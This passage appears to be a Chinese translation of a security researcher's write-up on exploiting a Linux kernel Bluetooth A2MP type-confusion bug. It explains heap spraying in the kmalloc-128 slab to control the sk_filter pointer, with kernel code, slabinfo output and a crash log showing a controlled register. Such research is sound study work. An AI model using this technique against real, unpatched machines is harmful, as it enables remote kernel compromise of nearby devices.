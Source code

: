 为了让 `amp_ctrl_lookup()` 返回一个控制结构，我们必须首先使用 `A2MP_GETINFO_RSP` 命令将它添加到列表中:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/bluetooth/a2mp.c
static int a2mp_getinfo_rsp(struct amp_mgr *mgr, struct sk_buff *skb,
			    struct a2mp_cmd *hdr)
{
	struct a2mp_info_rsp *rsp = (struct a2mp_info_rsp *) skb->data;
	...
	ctrl = amp_ctrl_add(mgr, rsp->id);
	...
}
```

这几乎是完美的堆原语，因为大小和内容可以是任意的！唯一的缺点是没有方便的原语来释放分配。释放它们的唯一方法似乎是关闭 HCI 连接，这是一个相对缓慢的操作。然而，为了理解如何以一种受控的方式释放分配(例如，释放每一秒的分配以产生漏洞)，我们需要密切关注内存管理。注意，当我们在`ctrl->assoc`中存储一个新的内存地址时，我们不会释放之前存储在那里的内存块。相反，当我们覆盖它时，这个内存块内容会丢失。为了利用这种行为，我们可以每秒钟用不同大小的分配覆盖一次`ctrl->assoc`，一旦我们关闭 HCI 连接，另一半将被释放，而我们覆盖的那些仍然被分配。

## 控制越界读取

为什么我们要用堆原语呢?回想一下，我们的想法是塑造堆并实现一个群，其中我们控制的内存块位于距离结构体`amp_mgr`对象一个块的位置。通过这样做，我们可以控制偏移 0x110 处的值，它表示 `sk_filter`指针。因此，当触发类型混淆时，可以对任意指针解引用。

下面的基本技术在使用了 SLUB 分配器的 Ubuntu 上非常可靠:

- 分配大量128字节大小的对象来填充 `kmalloc-128 slab`。
- 创建一个新的 A2MP 通道，并希望 `struct amp_mgr` 对象与被喷射的对象相邻。
- 触发类型混淆并实现受控的越界读取。

为了验证我们的堆喷射是否成功，我们可以首先查询 `/proc/slabinfo` 来获取受害者机器上的 `kmalloc-128` 的信息:

```shell
$ sudo cat /proc/slabinfo
slabinfo - version: 2.1
# name            <active_objs> <num_objs> <objsize> <objperslab> <pagesperslab> : tunables <limit> <batchcount> <sharedfactor> : slabdata <active_slabs> <num_slabs> <sharedavail>
...
kmalloc-128         1440   1440    128   32    1 : tunables    0    0    0 : slabdata     45     45      0
...
```

然后，在堆喷射之后，我们可以再次查询，发现 `active_objs` 增加了:

```shell
$ sudo cat /proc/slabinfo
...
kmalloc-128         1760   1760    128   32    1 : tunables    0    0    0 : slabdata     55     55      0
...
```

在上面的例子中，我们喷射了 320 个对象。现在，如果我们设法在这些新喷射的对象周围分配 `struct amp_mgr`对象，我们可能会在试图对受控指针(观察RAX的值)进行解引用时遇到一个 panic :

```shell
[   58.881623] general protection fault: 0000 [#1] SMP PTI
[   58.881639] CPU: 3 PID: 568 Comm: kworker/u9:1 Not tainted 5.4.0-48-generic #52-Ubuntu
[   58.881645] Hardware name: Acer Aspire E5-575/Ironman_SK  , BIOS V1.04 04/26/2016
[   58.881705] Workqueue: hci0 hci_rx_work [bluetooth]
[   58.881725] RIP: 0010:sk_filter_trim_cap+0x65/0x220
[   58.881734] Code: 00 00 4c 89 e6 48 89 df e8 b8 c5 af ff 41 89 c5 85 c0 75 62 48 8b 83 10 01 00 00 48 85 c0 74 56 49 8b 4c 24 18 49 89 5c 24 18 <4c> 8b 78 18 48 89 4d b0 41 f6 47 02 08 0f 85 41 01 00 00 0f 1f 44
[   58.881740] RSP: 0018:ffffbbccc10d3ca0 EFLAGS: 00010202
[   58.881748] RAX: 4343434343434343 RBX: ffff96da38f70300 RCX: 0000000000000000
[   58.881753] RDX: 0000000000000000 RSI: ffff96da62388300 RDI: ffff96da38f70300
[   58.881758] RBP: ffffbbccc10d3d00 R08: ffff96da38f67700 R09: ffff96da68003340
[   58.881763] R10: 00000000000301c0 R11: 8075f638da96ffff R12: ffff96da62388300
```